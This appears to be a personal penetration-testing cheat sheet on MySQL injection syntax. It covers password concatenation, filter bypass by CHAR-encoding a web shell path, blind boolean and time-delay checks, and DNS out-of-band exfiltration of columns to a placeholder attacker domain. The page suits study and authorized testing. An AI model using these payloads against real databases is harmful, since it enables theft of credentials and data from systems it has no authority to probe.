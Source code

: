 # MySQL Database

## Comment Syntax

1. `#`
	* `#COMMENT HERE` 
2. `-- `
	* `-- COMMENT HERE`
	* Note the required whitespace
3. `/* */`
	* `/*COMMENT HERE*/` 

---

## Version Query Syntax

```sql
SELECT @@version
```

```sql
SELECT version()
```

---

## String Concatenation Syntax

```sql
SELECT CONCAT(username, ':', password) FROM users
```

* Takes a variable number of arguments
* Arguments can be column names from the target table or string literals

---

## Cast an Integer into a Character

```sql
-- CHAR($INTEGER)
```

```sql
SELECT path FROM paths WHERE path = CONCAT(CHAR(47),'var',CHAR(47),'www',CHAR(47),'html',CHAR(47),'shell',CHAR(46),'php') -- /var/www/html/shell.php
```

* Especially helpful for bypassing tricky input restrictions on file paths (i.e., no `/`, `\`, and `.` allowed)


---

## Substring Syntax

```sql
SUBSTRING($STRING, $START_INDEX, $LENGTH)
```

```sql
SELECT COUNT(*) FROM users WHERE SUBSTRING(password,1,1) > 'm'
```
* Indices start at 1

---

## Conditional Syntax

```sql
SELECT IF($CONDITION, $VALUE_IF_TRUE, $VALUE_IF_FALSE)
```

```sql
SELECT IF(COUNT(*) = 1, 1, 0) FROM users WHERE username = 'admin' AND password = 'password123' -- returns 1 if password equals 'password123', 0 otherwise
```

Alternatively,

```sql
SELECT CASE WHEN ($CONDITION) THEN $VALUE_IF_TRUE ELSE $VALUE_IF_FALSE END
```

```sql
SELECT CASE WHEN (COUNT(*) = 1) THEN 1 ELSE 0 END FROM users WHERE username = 'admin' and password = 'password123' -- returns 1 if password equals 'password123', 0 otherwise
```

---

## Time delay syntax

[Reference](https://portswigger.net/web-security/sql-injection/cheat-sheet)

### Unconditionally wait for 10 seconds

```sql
SELECT sleep(10)
```

### Conditionally wait for 10 seconds

```sql
SELECT IF ($CONDITION$, sleep(10), 'a')
```

---

## DNS Lookup Syntax

```sql
LOAD_FILE('\\\\$YOUR_SUBDOMAIN.$YOUR_DOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\$YOUR_SUBDOMAIN.$YOUR_DOMAIN\\a'
```
* Only works on Windows
* Requires stacked queries
* Requires the `FILE` privilege & `@@GLOBAL.secure_file_priv` must be equal to `''` (blank). Read more [here](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv).

---

## DNS Lookup with Data Exfiltration Syntax

```sql
SELECT $COLUMNS_TO_EXFIL INTO OUTFILE '\\\\$YOUR_SUBDOMAIN.$YOUR_DOMAIN\\a'
```
* Only works on Windows
* Requires stacked queries
* Requires the `FILE` privilege & `@@GLOBAL.secure_file_priv` must be equal to `''` (blank). Read more [here](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv).

---

## Get Current Database

```sql
SELECT database();
```

---

## Table enumeration

[[database-enumeration#Querying database tables non-Oracle]]

---

## Table column enumeration

[[database-enumeration#Querying database tables' columns non-Oracle]]

---

## Show Current User's MySQL Privileges

```sql
show grants
```

---

## Interact with test database

[Reference](https://hub.docker.com/r/genschsa/mysql-employees)

On a Linux machine with Docker installed, run the `mysql-employees` Docker container.
* Change `$PASSWORD`

```bash
docker run -d -it --rm \
  --name mysql-employees \
  -p 3306:3306 \
  -e MYSQL_ROOT_PASSWORD=blah \
  -v $PWD/data:/var/lib/mysql \
  -v $PWD/mysqld.cnf:/etc/mysql/mysql.conf.d/mysqld.cnf \
  genschsa/mysql-employees
```

Get a shell in the container.

```bash
docker exec -it $CONTAINER_ID /bin/bash
```

In the container, connect to the test MySQL database.

```bash
mysql -u root -p
```

Query away!